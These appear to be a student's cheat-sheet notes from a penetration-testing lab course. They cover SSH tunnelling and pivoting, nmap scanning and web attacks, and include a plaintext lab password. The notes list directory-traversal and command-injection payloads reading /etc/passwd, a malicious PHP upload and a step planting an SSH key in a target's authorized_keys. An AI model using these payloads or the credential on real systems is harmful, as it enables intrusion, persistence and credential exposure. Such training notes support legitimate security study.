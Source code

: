 # Security
MIDY-003-M
USERINFO::http://10.50.21.3/classinfo.html
CTFd::http://10.50.20.250:8000

xfreerdp /v:10.50.29.185 /u:student +clipboard +dynamic-resolution +glyph-cache

Stack: 1 	
Username: MIDY-003-M 	
Password: 98DjctjRf4TQpHB ---- password
Lin.internet: 10.50.28.189
Lin.Ops: 10.50.25.1
Win.Ops: 10.50.29.185

## SSH
ssh student@10.50.28.189 -D 9050
ssh student@10.50.28.189 -L1111:192.168.28.111:8080

ssh -MS /tmp/jump student@10.50.28.189 
ssh -S /tmp/jump dummy
ssh -S /tmp/jump dummy -O forward -D 9050 dummy  --- DYNO port 
ssh -S /tmp/jump dummy -O cancel -D 9050 dummy  --- DYNO port 

proxychains nmap -Pn -T4 -n -p1-10000 192.168.128.111

ssh -S /tmp/jump -O forward -L1111:192.168.28.111:80 DUMB
ssh -S /tmp/jump -O forward -L2222:192.168.28.111:8080 DUMB
ssh -S /tmp/jump -O forward -L3333:192.168.28.111:2222 DUMB
ssh -MS /tmp/T1 student@127.0.0.1 -p3333


## NMAP scanning
HOST DISCOVERY: 
    for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
    
 ///NMAP scripts --
    --script http-enum.nse
    --script smb-os-discovery.nse //only with windows
 
PORT ENUMERATION:  
    sudo proxychains nmap -Pn -T4 -sT -p1-10000 192.168.28.111 2>/dev/null

PORT INTERIGATION:  
    proxychains nc 192.168.28.111 80

# Web Expliotation (XSS)
**Requests**
GET
POST
HEAD
PUT

**HTTP Response Codes**
10X == Informational
2XX == Success
30X == Redirection
4XX == Client Error
5XX == Server Error

https://user-agents.net/lookup

Check for Robots.txt

sudo apt install nikto -y

nikto -h 10.50.40.14

**Attack Methods**
//Cookie script

//Directory Traversal(GET) -- myfile=../../../../etc/passwd
//Directory Traversal(POST) -- File to read [../../../../etc/passwd]

//Malicious File Upload
Bad.php -- on lin-ops

//Command Injection
;whoami
;cat /etc/passwd
;ls -latr & netstat -rn
|| ifconfig

//SSH Key Upload
ssh -keygen -t rsa
cat ~/.ssh/id_rsa.pub  --copy this
ls -la /users/home/directory      --check if .ssh exists
mkdir /users/home/directory/.ssh   --make .ssh in users home folder if it does not exist
echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys  -- puts ssh key in dir
 cat /users/home/directory/.ssh/authorized_keys  -- verify


















